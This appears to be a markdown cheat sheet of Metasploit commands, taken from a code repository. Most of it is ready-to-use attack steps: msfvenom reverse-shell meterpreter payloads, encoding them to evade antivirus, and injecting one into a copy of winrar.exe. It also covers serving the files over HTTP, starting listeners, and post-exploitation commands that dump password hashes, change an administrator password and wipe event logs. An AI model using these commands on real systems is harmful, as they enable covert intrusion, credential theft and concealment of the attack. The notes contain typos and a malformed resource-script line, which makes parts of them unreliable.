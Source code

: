 
- __`search type:auxiliary name:smb`__
- __`db_import /root/result`__
- __`db_nmap -A -Pn -T4 ,ip.`__
- __`hosts`__
- __`services`__

## using load wmap in msfconsole

- __`load wmap`__
- __`wmap_sites -h`__
- __`wmap_sites -a <target_ip>`__
- __`wmap_targets -h`__
- __`wmap_targets -t http://<target_ip>`__
- __`wmap_sites -l`__
- __`wmap_run -h`__
- __`wmap_run -t`__
- __`wmap_vulns -h`__
- __`wmap-vulns -l`__

### msfvenom
- __`msfvenom --list payloads`__
##### Windows payload
- __`msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -f exe > /home/kali/Desktop/payloadx86.exe`__
- __`msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -f exe > /home/kali/Desktop/payloadx64.exe`__
##### Linux payload
- __`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -f elf > ~/Desktop/payloadx86`__
- __`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -f elf > ~/Desktop/payloadx64`__
  - > __we have create a payload and now we should set the listern in msfconsole__
  - __`use multi/handler`__
  - __`set payload windows/meterpreter/reverse_tcp`__
  - __`exploit`__


### Encoding Payloads with Msfvenom
##### Windows
- __`msfvenom --list encoders`__
- __`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -e x86/shikata_ga_nai -f exe > ~/Desktop/payloadx86.exe`__
- __`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -i 10 -e x86/shikata_ga_nai -f exe > ~/Desktop/payloadx86.exe`__
  - __`-i` iterations__
  - __`-e` endcode__

##### Linux
- __`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -i 10 -e x86/shikata_ga_nai -f elf > ~/Desktop/payloadx86`__


### Injecting Payloads into windows Portable Executables
- __`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -i 10 -e x86/shikata_ga_nai -f exe -x winrar.exe > ~/Desktop/payloadx86.exe`__
  - __`-x` injecting payload__

- __`sudo python -m SimpleHTTPServer 80`__
```
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <youip>
set LPORT 4444
exploit
```

### Automating Metasploit with Resource Scripts
  - __create a file handler.rc__
    - __`nano handler.rc`__
  - __writing the command that you want to automat__
    ```use multi/handler set payload windows/meterpreter/reverse_tcp set LHOST <yourip> LPORT 444 exploit```
  - __`msfconsole -r handler.rc`__
    - __it will run automatically without typing__

  - __can do this form the msfconsole also__
    - __`resource ~/Desktop/handler.rc`__
    - __we have one more option called `makerc`__
      - __`makerc` will save the pervious command in .rc file that you entered in the msfconsole__
        - __`makerc /home/kali/Desktop/protscan.rc`__
# For linux
- __`getuid`__
- __`getenv PATH`__
- __`getenv TERM`__
- __`search -d /usr/bin -f *backdoor*`__
- __`search -f *.jpg`__
- __`search -f *.php`__

# For Windows
- __`show_mount`__
- __`ps`__
- __`migrate explorer.exe`__
- __`pgrep explorer.exe`__
- __`hashdump`__
__Down below command are for the windows target system after login using meterpreter using shell__
  - __`net users`__
  - __`net localgroup administrators`__
  - __`net localgroup administrators password123` Changing passoword__
- __you can clear all the logs in the windows target system__
  - __type the below command in meterpreter__
  - __`clearev`__
 
__displaying mounted drive in windows system__
  - __`show_mount`__


